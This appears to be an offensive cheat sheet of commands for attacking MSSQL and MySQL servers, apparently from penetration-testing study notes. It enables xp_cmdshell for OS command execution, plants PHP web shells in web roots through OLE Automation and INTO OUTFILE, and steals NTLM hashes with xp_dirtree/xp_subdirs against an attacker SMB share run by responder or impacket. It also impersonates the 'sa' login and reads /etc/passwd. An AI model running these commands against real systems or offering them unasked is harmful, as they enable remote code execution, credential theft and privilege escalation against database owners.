 


MSSQL command execution 
```cmd-session
1> xp_cmdshell 'whoami'
2> GO
```

MSSQL Enabling xp_cmdshell
```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

Enable writing to files with MSSQL (Requires Admin)

```cmd-session
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
or 
```
enable_xp_cmdshell
```


Creating Files
```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

XP_DIRTREE Hash Stealing
```cmd-session
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

XP_SUBDIRS Hash Stealing
```cmd-session
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

```shell-session
sudo responder -I tun0
```

```shell-session
sudo impacket-smbserver share ./ -smb2support
```

Finding Users to impersonate
```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

Verifying Current User and Role
```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```

Impersonating User
```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```




MySQL

Privilege files 
`secure_file_priv` may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

Showing variables
```shell-session
show variables like "secure_file_priv";
```

Writing to Local File
```shell-session
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

Reading Local File
```shell-session
select LOAD_FILE("/etc/passwd");
```

